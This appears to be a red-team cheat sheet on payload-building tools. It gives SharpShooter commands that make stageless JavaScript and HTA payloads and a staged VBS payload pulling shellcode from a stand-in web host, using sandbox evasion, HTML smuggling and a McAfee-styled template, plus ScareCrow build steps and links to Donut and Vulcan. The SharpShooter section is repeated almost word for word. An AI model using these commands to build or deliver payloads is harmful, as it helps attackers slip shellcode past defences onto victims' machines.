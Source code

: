 Javascript Payload Stageless: 

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

### Donut: 

Source: https://github.com/TheWover/donut

### Vulcan

Source: https://github.com/praetorian-code/vulcan


### Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

    sudo apt install golang

    go get github.com/fatih/color
    go get github.com/yeka/zip
    go get github.com/josephspurrier/goversioninfo

    go build ScareCrow.go

    ./ScareCrow

### Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
